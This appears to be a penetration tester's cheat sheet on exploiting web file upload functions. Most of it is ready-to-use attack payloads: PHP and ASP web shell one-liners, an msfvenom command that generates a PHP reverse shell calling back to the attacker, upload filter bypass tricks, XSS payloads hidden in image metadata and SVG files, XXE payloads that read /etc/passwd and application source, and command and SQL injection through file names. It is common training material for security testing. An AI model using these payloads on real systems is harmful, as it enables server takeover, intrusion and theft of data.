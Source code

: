 # File Uploads

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)

## WebShells

One good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell.

[SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages.

## Cheatsheet

```
Web Shell 	Description
<?php file_get_contents('/etc/passwd'); ?> 	Basic PHP File Read
<?php system('hostname'); ?> 	Basic PHP Command Execution
<?php system($_REQUEST['cmd']); ?> 	Basic PHP Web Shell
<% eval request('cmd') %> 	Basic ASP Web Shell
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php 	Generate PHP reverse shell
```

| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                         |
| --------------------------------------------------------------------------------------- | ------------------------------------- |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## ByPasses

| **Command**                                                                                                                                | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| **Client-Side Bypass**                                                                                                                     |                                              |
| `[CTRL+SHIFT+C]`                                                                                                                           | Toggle Page Insepctor                        |
| **Blacklist Bypass**                                                                                                                       |                                              |
| `shell.phtml`                                                                                                                              | Uncommon Extension                           |
| `shell.pHp`                                                                                                                                | Case Manipulation                            |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions                       |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)                | List of ASP Extensions                       |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)                          | List of Web Extensions                       |
| **Whitelist Bypass**                                                                                                                       |                                              |
| `shell.jpg.php`                                                                                                                            | Double Extension                             |
| `shell.php.jpg`                                                                                                                            | Reverse Double Extension                     |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`                                                                                          | Character Injection - Before/After Extension |
| **Content/Type Bypass**                                                                                                                    |                                              |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)                             | List of Web Content-Types                    |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)                    | List of All Content-Types                    |
| [File Signatures](https://en.wikipedia.org/wiki/List\_of\_file\_signatures)                                                                | List of File Signatures/Magic Bytes          |

## XSS

Many file types may allow us to introduce a `Stored XSS` vulnerability to the web application by uploading maliciously crafted versions of them.

The most basic example is when a web application allows us to upload `HTML` files. Although HTML files won't allow us to execute code (e.g., PHP), it would still be possible to implement JavaScript code within them to carry an XSS or CSRF attack on whoever visits the uploaded HTML page.

we can include an XSS payload in one of the Metadata parameters that accept raw text, like the `Comment` or `Artist` parameters, as follows:



```shell-session
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

XSS attacks can also be carried with `SVG` images, along with several other attacks. `Scalable Vector Graphics (SVG)` images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload. For example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
```

## XXE

With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

we can also use XXE to read source code in PHP web applications:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### Injections in File Name

For example, if we name a file `file$(whoami).jpg` or ``file`whoami`.jpg`` or `file.jpg||whoami`, and then the web application attempts to move the uploaded file with an OS command (e.g. `mv file /tmp`), then our file name would inject the `whoami` command, which would get executed giving  us RCE.

Similarly, we may use an XSS payload in the file name (e.g. `<script>alert(window.origin);</script>`), which would get executed on the target's machine if the file name is disabled to them. We may also inject an SQL query in the file name (e.g. `file';select+sleep(5);--.jpg`), which may lead to an SQL injection if the file name is insecurely used in an SQL query.

